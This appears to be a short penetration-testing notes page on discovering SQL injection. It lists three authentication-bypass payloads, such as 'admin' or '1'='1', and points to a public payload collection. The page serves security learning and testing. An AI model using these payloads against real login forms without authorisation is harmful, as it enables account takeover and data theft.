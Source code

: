 # SQL Injection Discovery



## SQL Injection Discovery

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:red;">**Note:**</mark> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.



**Examples:**

```sql
admin' or '1'='1
```

```sql
' or 1=1 in (SELECT password FROM users) -- //
```

```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```



You can find a comprehensive list of SQLi auth bypass payloads in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass), each of which works on a certain type of SQL queries.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}



\
